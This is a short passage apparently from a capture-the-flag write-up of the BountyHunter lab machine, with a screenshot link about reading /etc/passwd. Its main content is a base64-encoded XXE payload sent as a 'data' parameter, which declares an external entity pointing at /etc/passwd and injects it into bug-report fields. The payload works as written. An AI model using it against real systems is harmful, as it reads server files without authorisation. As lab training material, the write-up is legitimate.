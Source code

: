 ```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4NCjwhRE9DVFlQRSBmb28gWzwhRU5USVRZIHJhY2Nvb24gU1lTVEVNICIvZXRjL3Bhc3N3ZCI%2bIF0%2bDQoJCTxidWdyZXBvcnQ%2bDQoJCTx0aXRsZT4mcmFjY29vbjs8L3RpdGxlPg0KCQk8Y3dlPiZyYWNjb29uOzwvY3dlPg0KCQk8Y3Zzcz4mcmFjY29vbjs8L2N2c3M%2bDQoJCTxyZXdhcmQ%2bJnJhY2Nvb247PC9yZXdhcmQ%2bDQoJCTwvYnVncmVwb3J0Pg%3d%3d
```

![/etc/passwd read xxe](/img/bountyhunter/BountyHunter_xxe_passwd_read.png)
